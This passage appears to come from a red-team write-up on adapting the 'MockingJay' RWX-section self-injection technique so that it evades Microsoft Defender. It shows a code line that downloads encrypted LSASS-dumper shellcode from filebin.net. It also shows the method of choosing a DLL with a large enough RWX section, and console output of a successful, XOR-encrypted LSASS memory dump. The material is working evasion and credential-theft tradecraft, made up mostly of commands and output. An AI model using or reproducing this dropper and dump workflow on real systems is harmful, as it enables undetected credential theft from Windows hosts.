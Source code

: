 Recompiling, testing the msgbox POC and analysing it, we find it is undetected by defender:

```
PS D:\Work\pe2sh> & 'D:\Work\ThreatCheck.exe' -f D:\Work\MockingJay-SelfInjection-Dropper\mockingjay\x64\Release\mockingjay.exe
[+] No threat found!

PS D:\Work\pe2sh> & 'D:\Work\ThreatCheck.exe' -f D:\Work\rwxfinder.exe
[+] No threat found!
```

Now, altering it to execute our LSASSDumper encrypted shellcode as in prior techniques we find that the POC dosen't work.

```
// Download shellcode
        std::vector<BYTE> shellcode = Download(L"www.filebin.net", L"/wj76iwfjn1axc8xy/DLLHijackLSASSDumper2.bin");
```

This is mainly due to the fact that our current Dll with the free RWX section cannot accomodate the shellcode size of the LSASSDumper Shellcode.

```
C:\Users\localPC\Desktop>.\mockingjay.exe
[+] Module loaded...[+] Offset to RWX memory region: 0xe029b009
[+] Shellcode Written to RWX Memory Region.
```

We need to find another Dll suitable with a large enough RWX section. Attempting to find such Dlls on the target MDE testmachine we find none. However, running the sane on our local machine could result in interesting results such as follows:

```
C:\Users\localPC\Desktop>.\rwxfinder.exe
[snip]
[RWX] C:\\Program Files (x86)\Microsoft SDKs\NuGetPackages\Microsoft.NETCore.Runtime.CoreCLR-x64\1.0.0\runtimes\win7-x64\lib\dotnet\mscorlib.ni.dll
Section Name: .xdata
Virtual Size: 0x2C308
Virtual Address: 0x206000
Size of Raw Data: 0x2C400
Characteristics: 0xE0000040
---------------------------
```

To accomodate LSASSDumper shellcode size we use `C:\\Program Files (x86)\\Microsoft SDKs\\NuGetPackages\\Microsoft.NETCore.Runtime.CoreCLR-x64\\1.0.0\\runtimes\\win7-x64\\lib\\dotnet\\mscorlib.ni.dll` instead of the default  `C:\\Program Files\\Microsoft Visual Studio\\2022\\Community\\Common7\\IDE\\CommonExtensions\\Microsoft\\TeamFoundation\\Team Explorer\\Git\\usr\\bin\\msys-2.0.dll`.

Testing this POC on our local machine it works.

```
C:\Users\localPC\Desktop>.\mockingjay.exe
[+] Module loaded...[+] Offset to RWX memory region: 0xe019b000
[+] Shellcode Written to RWX Memory Region.
[+] Searching for LSASS PID
[+] LSASS PID: 844
[+] Starting dump to memory buffer
[+] Copied 49173962 bytes to memory buffer
[+] Successfully dumped LSASS to memory!
[+] Xor encrypting the memory buffer containing the dump data
[+] Xor key: jisjidpa123
[+] Enrypted dump data written to "LSASS_ENCRYPTED.DMP" file
```


[+]: Shellcode located at c7160